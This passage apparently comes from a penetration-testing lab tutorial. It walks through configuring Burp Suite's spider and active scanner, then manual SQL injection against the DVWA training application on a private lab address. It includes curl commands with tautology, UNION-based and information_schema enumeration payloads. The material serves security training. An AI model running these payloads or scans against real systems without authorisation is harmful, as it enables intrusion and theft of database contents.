### Phase 3: Automated Vulnerability Scanning

**Configure Burp Scanner:**

1. **Spider Configuration:**
   - Target → Site map
   - Right-click target → "Spider this host"
   - Configure spider options:
     - Maximum link depth: 10
     - Check robots.txt
     - Submit forms automatically

2. **Active Scanning:**
   - Right-click spidered content
   - "Actively scan this host"
   - Configure scan options:
     - All vulnerability types
     - Thorough scan mode
     - Custom insertion points

3. **Monitor Scan Progress:**
   - Scanner → Queue
   - View real-time progress
   - Review identified issues

**💡 Automated Testing Value:**
- Comprehensive coverage
- Consistent methodology
- Time efficiency
- Baseline vulnerability assessment

**💡 Scan Coverage:**
- SQL injection detection
- Cross-site scripting (XSS)
- Authentication bypass
- Directory traversal
- Information disclosure

**💡 Professional Practice:**
- Document scan configurations
- Review all findings manually
- Validate automated results
- Prioritize by business risk

### Phase 4: Manual Testing - SQL Injection

**Target DVWA SQL Injection modules:**

```bash
# Basic injection testing
curl "http://192.168.0.169:8080/vulnerabilities/sqli/?id=1' OR '1'='1'&Submit=Submit"

# Union-based injection
curl "http://192.168.0.169:8081/vulnerabilities/sqli/?id=1' UNION SELECT 1,database()--&Submit=Submit"

# Information schema enumeration
curl "http://192.168.0.169:8080/vulnerabilities/sqli/?id=1' UNION SELECT table_name,column_name FROM information_schema.columns--&Submit=Submit"
```
